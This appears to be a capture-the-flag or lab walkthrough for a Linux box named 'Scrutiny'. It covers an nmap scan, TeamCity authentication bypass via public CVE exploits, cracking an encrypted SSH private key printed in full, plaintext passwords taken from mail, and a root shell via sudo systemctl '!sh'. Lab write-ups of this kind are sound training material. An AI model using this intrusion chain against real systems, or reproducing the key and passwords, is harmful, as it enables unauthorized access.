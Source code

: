 # Linux - Scrutiny

---

### Host Info

```bash
192.168.136.91
```

### Scan

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-16 19:01 EST
Nmap scan report for 192.168.136.91
Host is up (0.039s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT    STATE  SERVICE VERSION

22/tcp  open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)

25/tcp  open   smtp    Postfix smtpd
| ssl-cert: Subject: commonName=onlyrands.com
| Subject Alternative Name: DNS:onlyrands.com
| Not valid before: 2024-06-07T09:33:24
|_Not valid after:  2034-06-05T09:33:24
|_smtp-commands: onlyrands.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time

80/tcp  open   http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: OnlyRands

443/tcp closed https

Aggressive OS guesses: Linux 5.0 - 5.14 (98%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (98%), Linux 4.15 - 5.19 (94%), Linux 2.6.32 - 3.13 (93%), Linux 5.0 (92%), OpenWrt 22.03 (Linux 5.10) (92%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (90%), Linux 4.15 (90%), Linux 2.6.32 - 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host:  onlyrands.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   35.31 ms 192.168.45.1
2   35.34 ms 192.168.45.254
3   35.35 ms 192.168.251.1
4   43.15 ms 192.168.136.91

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 154.62 seconds

```

---

## Walkthrough

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image.png)

- go to website, we find a login choice.  however, we got error says unknown host.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%201.png)

- add target ip with host in “/etc/hosts”.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%202.png)

- refresh page, we got a login page.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%203.png)

- try default credential, not working.
- search “teamcity 2023.05.4 exploit”. There’s msf exploit, skip that for now.

https://www.rapid7.com/db/modules/exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793/

- attempt #1

https://www.exploit-db.com/exploits/51884

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%204.png)

- failed try another

- attempt #2

[https://github.com/H454NSec/CVE-2023-42793](https://github.com/H454NSec/CVE-2023-42793)

https://nvd.nist.gov/vuln/detail/cve-2023-42793

- attempt #3

[https://github.com/Chocapikk/CVE-2024-27198](https://github.com/Chocapikk/CVE-2024-27198)

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%205.png)

```bash
[+] User created successfully. Username: ia2xnq9s, ID: 21, Password: OEskzn5CnF
[+] Token created successfully for user ID: 21. Token Name: uuhald24dp, Token: 
eyJ0eXAiOiAiVENWMiJ9.MWlGaHhFbm5vd2NpTGg1bmUtNFYxRjF0aFNn.NmMyMzc3YjgtZDI4NC00ZDQwLTgzNTktY2Y5ZmZjOTNlYTJi
```

- we are in.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%206.png)

- macro tillman info
    
    ![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%207.png)
    
    ```bash
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCzpZkaQ7
    4EIGvgnCCw0x+IAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDS1hJawG7o
    4k3WdGuM/60S7Rqogfzv0nNTmf4/bEZPrFcTbiLYd529bAUSQrHXsHOoH4CxPapIGaZe9A
    7txuB5VmB39/9qx9wmrOppZBBGvoyLL9oawcKGUcXpIlqmAhwJwLpJagzPIxw4Hz0yJv2H
    ovJFx5WyvPLZkYB4Yrzk0StBKR16UyDSV/0JyoCYxpE4WFsStll8o/h/ziX03ookr/n0Y4
    g9jq5zsQbWMd4vN5jP1eK43nGR44I1N6sebGSUIuenPViDBsBmCy6NrLK25c8nOYHCRoUf
    GJxVwhh8l//a1qJ2gLwjkHz1k5zhCbFYkXf92KU6fSr32jJeYSoSGaqyyVNNfb7Uo44Nf7
    8QvDgpRkgdjHde0lg3Wk2uVv/Ot0ss0xEtWtlYRQ+24WpGRpb0y/WvAaRzuZdJqBDammf7
    PErgo0Ah8r1xuEdr3vF7DhE/+55PgtwbZDmxyaitET5/EvnNOPM+yS209+lJVb6gXSKEpY
    rCnKPPiobEhiEAAAWQp45JUbsEiojYJZRXKCbfPX3Ykij86o4TzY7j5eb+imp+i/N/xhbn
    PEBCy3TSNiNyab2EeYqPAjysWrfIqEvmQGLM+KeiKssXDIwcZPfx5/ezFgTLTt/XUWpI5i
    7SEnqG4xQ6NQKa1o3SQG1/R0tgsDKPFibslJ+JaJXQ+1U0InNhNe7CIIaytB/vMmU5OllF
    Ipv3UdqLZt/QXCjZrpqGSY8GCdfkQf91rtwW5FjdvFua4dyMpDjPKJAdoWfgJkEaY5rZyv
    aTz7ytcMbhR7Y/H+7fB/Mm3xKaRNfGujhadnr6hNSwoDxxqMNnS7gnkvjytoW8ACUtNDCc
    ARbx9CF/oU5+u7mQeyQm6O4f8hZ4ltOyow3GA7AFeSjzAZk2C5sS2CPig/YMs4KHsPFK5G
    ItmZsAH1ph8jDWTFc6dN4BnMs/LyU47+tbpGYQyd45F6L5U6+YpUhjmGglsyk53a6zXucy
    fxhI9lvOnjY7wlMvmP07uK3a5NgGUmH+uPKU5h0bSdiR+Z+iZykwVb/rKAOpsPYnM+OGX4
    mnZoC3KSFQWJ7Xjoygeb9BLbIly+mfdcf9E/8dfrMjZzBh2Ac3J+2jWray7lmv9GK9NAsv
    RP+Ma3XgB8z4nhnWutiQz6rpDEzwdXaqNk2JCfKRueYX0aKUwCbj6F/MXdfZlcVbAtDYrq
    3tVF4zPon8n8PG+br0xP4h8dFcyApK2l5Qi4eZOK8z1J+GT4o0HPaS0cGbO9AeFaOPsBjV
    bIVhdi4//NCHb7XZh5ZBguJJpfPPAH8s4maSosPLnxYWxUHdGRKgsap2n8Tb+DORcSEYBN
    m4jkRu3aVuOeD6K82mqzZKNKbnwDygwFA6YqsCPKeqFikTMZDFkwwBFO8hLPM/EfIUbqBK
    C6RKW2gbV1o1l648m1ZOFuezsWiI7GXQc7JXLVaIUMEwIy54e5QZsWuQgg5ThPcyHGYn3P
    BXiT7fsGtzDIn7wA86MHy2NTviCVzeqqTbd+Qiuq/oSxKbDIom7zdx6a4QTEIlGQCcaecV
    +be7+OwV+jDSifQ2D92LKJfGghvmO2DmeLJAvVe/eXg3g2d2O/WNhhn7gTdH8bVtGNmGHh
    ETXutSNVBDnncEI+E3lUeF/pjwEZ7L/+dITV12eqVFjqgaiShW0p+E2lPgah9EQUC+4KTJ
    /UEAa3fz81WV62bRo4ABHDt1X/ad7JDp7ML9vZewE5fTyECWdJQ9PHs4+gI9LiRHKx6S5f
    oTY7UJcqWqvVfiS+q7Xqay/QjQUyXU3ypjMPEEDUfmJbXDzf3/W460bwhalRNY2PtbFb+H
    JMS4rI7bwkYWXgl4lf+8LPmk5t4dZB2R67iY+fnK+04rLMDex8+ACsRxNlNa3v6JpNW5K6
    RjLlU8KZBjUnjPD+XMwR9eOJcSbV63JyywKCC97RFwqyJivbuMvfSi7DTEEDuyWcJP0AX2
    wrxjk6HBN2RskGBFkUd4kXv9f7OOYI/QIOK9RabewEBgyYJy2YM8Iswh2AqfK+2fDY+Z0s
    TJst5Volup75QbrcABaRSpQMCWC1/+9CmjJ+VZGFlsVh2mrcimjX9nIpnCDqzRa2zCNA8A
    3/4QL4bA/CpCqamUUYMwI+Ynjs5C4pxfJxeV0b/uDwmBb0/aSmB2Dyr81qrK3uV6mGlQ6q
    WbFvBByUKCc3BKqqT0BT7Qh3byxJTOKR/JizPtDXjruK8GDigP8SJkXUyUY7TnyHPZkjwR
    /GwZvg7w9e4N+HTxfKdjLRDtGmaDePB+g+0EpS9FXdjC3UHY0iMtinquX8wWFSpF/P0nog
    TsX5lDWOO8/NLLbrsFUB8ScALbZP/7jnTmVyqIj6bqgYTZIDpgsOIho4ovVg1oucnDRMyT
    9EHV94yVIeYQzmagUFXqPqFVMSM=
    -----END OPENSSH PRIVATE KEY-----
    
    ```
    
- use id_rsa direct connect not working, passwords required.
- this id_rsa might be encrypted. we convert it to john-recognized hash format, then decrypt it with john the ripper.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%208.png)

- try ssh, now we are in!

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%209.png)

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2010.png)

```bash
marcot@onlyrands:/home$ find / -perm -u+s 2>/dev/null
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/su
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

- [lps.sh](http://lps.sh) → not working

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2011.png)

93aa33cefa78b5376aee26389d530614

- Remember we have a port 25 open for smtp. We should check any information contained in emails.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2012.png)

- as marcot, we can only read marcot.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2013.png)

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2014.png)

- From matthew to macro. got credential → `matthewa : IdealismEngineAshen476`
- switch account → `matthewa`

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2015.png)

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2016.png)

- nothing in matthew’s email, return back to home to check

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2017.png)

- got new password →  `briand : RefriedScabbedWasting502`
- login as briand, we are administration, we can use “sudo -l”

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2018.png)

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2019.png)

- allow to use command without passwd → sudo /usr/bin/systemctl status teamcity-server.service
- run → use “!” → use “!sh”.

![image.png](Linux%20-%20Scrutiny%2017d553bebf0f80809fc7fda49e51ea21/image%2020.png)

- we are root

c30feadf4d324b10234e0be04e678d08
